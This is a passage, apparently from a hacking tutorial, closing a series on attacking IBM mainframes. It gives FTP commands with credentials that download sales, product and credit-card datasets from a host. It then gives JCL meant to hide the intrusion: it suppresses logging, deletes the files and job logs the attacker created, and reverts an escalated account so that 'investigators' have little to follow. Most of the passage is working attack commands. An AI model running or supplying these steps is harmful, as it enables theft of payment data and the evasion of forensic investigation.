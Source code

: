 Here we can see the sales data, credit card numbers, products, etc. All that is really left to do is to download these files using the familiar mget command:

To download the files, execute the following FTP commands:

```
open 192.168.1.200
FTPSRV
PASS01
mget SALESMAS.SALES.ACCOUNTS.*
prompt
mget SALESMAS.SALES.PRODUCTS.*
prompt
mget ARCHIVE.SALES.*
prompt
quit
```

Before leaving the Mainframe, we need to erase the multiple files we created. This ensures that investigators will have minimal traces to follow. Use the following JCL to clean up:

```
//FTPSRV1 JOB,MSGLEVEL=0
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
DELETE 'FTPSRV.OUTPUT1'
DELETE 'FTPSRV.OUTPUT2'
DELETE 'FTPSRV.OUTPUT3'
DELETE 'FTPSRV.OUTPUT4'
DELETE 'FTPSRV.OUTPUT5'
DELETE 'FTPSRV.PDS'
DELETE 'FTPSRV.ELV.SVC'
OUTPUT FTPSRV1(JOB04721) delete
OUTPUT FTPSRV1(JOB04722) delete
OUTPUT FTPSRV1(JOB04723) delete
OUTPUT FTPSRV1(JOB04724) delete
OUTPUT FTPSRV1(JOB04725) delete
ALU FTPSRV NOSPECIAL NOOPERATIONS
/*
//SYSIN DD DUMMY
//SYSTSPRT DD SYSOUT=*
```

Note: The MSGLEVEL=0 instruction in the JOB card prevents logging of the core content of this JCL. Logs from previous JCL submissions are deleted with the “OUTPUT” commands. The ALU command removes the SPECIAL and OPERATIONS privileges from the account to restore it to its normal state.

That’s a wrap on the Mainframe saga! Despite their perception as outdated and often overlooked in the hacking community, Mainframes hold substantial amounts of critical data. While pentesters might focus on emails and Domain Controllers, real data often resides in Mainframe datasets, which may sometimes suffer from inadequate security audits.
